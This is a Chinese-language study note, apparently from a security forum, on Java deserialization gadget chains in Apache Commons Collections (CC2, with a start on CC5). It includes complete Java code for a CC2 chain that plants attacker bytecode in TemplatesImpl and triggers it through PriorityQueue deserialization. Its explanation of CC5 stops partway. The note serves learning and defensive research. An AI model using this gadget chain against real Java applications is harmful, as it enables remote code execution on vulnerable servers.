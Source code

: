 # CC2

一样要依赖于CC4 这里跳了一下直接走了`TemplatesImpl#newTransformer()`去动态加载类

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer", new Class[]{}, new Object[]{});

        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);

        priorityQueue.add(templates);
        priorityQueue.add(2);

        Class c = transformingComparator.getClass();
        Field transformingComparatorfield =  c.getDeclaredField("transformer");
        transformingComparatorfield.setAccessible(true);
        transformingComparatorfield.set(transformingComparator,invokerTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
```

‍

# CC5

CC5其实也是一种排列组合，就是作者在`TiedMapEntry`中还找到了`toString`方法也可以调用`LazyMap#get()`

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d7256f41ce0f361df4a4f185671d2da9d918330a.png)

都是一样的

所以去找了一下谁去调用了`toString`方法 找到了`\src.zip!\javax\management\BadAttributeValueExpException.java`

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a7abb743b8118207dbfe37c882c6ca38a7086c03.png)
